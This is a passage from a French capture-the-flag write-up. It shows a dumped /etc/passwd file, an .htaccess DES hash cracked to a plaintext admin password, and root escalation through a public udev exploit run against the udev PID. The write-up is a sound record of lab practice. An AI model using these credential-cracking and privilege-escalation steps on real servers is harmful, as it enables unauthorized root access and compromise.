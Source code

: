 ```plain
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
avahi:x:70:70:Avahi daemon:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
distcache:x:94:94:Distcache:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
pcap:x:77:77::/var/arpwatch:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
dovecot:x:97:97:dovecot:/usr/libexec/dovecot:/sbin/nologin
john:x:500:500::/home/john:/bin/bash
linda:x:501:501::/home/linda:/bin/bash
fred:x:502:502::/home/fred:/bin/bash
molly:x:503:503::/home/molly:/bin/bash
toby:x:504:504::/home/toby:/bin/bash
```

Dans le dossier logs on trouve un .htaccess (admin:mFiIPQcxSFjRA) qui se casse rapidement :  

```plain
Loaded 1 password hash (Traditional DES [128/128 BS AVX-16])
adminpas         (admin)
```

Et finalement l'accès root
--------------------------

Malgré tout ça on ne trouve rien qui nous permet de passer root. On va donc fouiller dans les exploits existants.  

Le kernel est trop récent pour les failles ptrace et trop à jour pour vmsplice. Il est aussi trop vieux pour certaines failles qui touchent les 2.6.3\* et 3.\*.  

Finalement il fallait insister sur [l'exploit pour UDEV de Kingcope](http://www.exploit-db.com/exploits/8478/). On passe en argument le PID du udev (obtenu via ps) :  

```plain
sh-3.2$ ./udev.sh 569
suid.c: In function 'main':
suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
sh-3.2# id
uid=0(root) gid=0(root) groups=48(apache)
```

Conclusion
----------

Un CTF sans grande difficulté malheureusement très proche des intrusions qui se font sur des milliers de serveurs chaque jour.

*Published June 03 2014 at 18 34*